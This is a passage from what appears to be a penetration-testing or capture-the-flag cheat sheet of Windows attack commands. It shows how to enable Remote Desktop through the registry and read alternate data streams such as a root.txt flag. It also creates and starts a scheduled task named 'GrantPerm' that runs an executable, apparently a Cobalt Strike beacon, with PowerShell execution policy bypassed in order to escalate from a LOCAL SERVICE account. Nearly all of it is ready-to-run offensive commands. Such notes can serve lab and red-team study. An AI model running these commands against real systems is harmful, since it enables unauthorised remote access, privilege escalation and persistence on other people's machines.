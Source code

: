 
or:
```cmd
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```
#### Searching a directory for alternative data streams
```cmd.exe
dir /R
```
#### Read the stream by piping into it
```cmd.exe
more < hm.txt:root.txt
```

### Creating and executing a Scheduled Task (w/ CS Beacon)
Especially useful for when you have limited privileges on a LOCAL SERVICE account and want to get more privileges
#### Create a scheduled task action to execute PowerShell 
```PowerShell
$TaskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-ExecutionPolicy Bypass -Command `"& 'C:\wamp\www\common-apps.exe'`"" 
```
#### Register the scheduled task with the action 
```PowerShell
Register-ScheduledTask -Action $TaskAction -TaskName "GrantPerm" 
```
#### Start the scheduled task ```
```PowerShell
Start-ScheduledTask -TaskName "GrantPerm"
```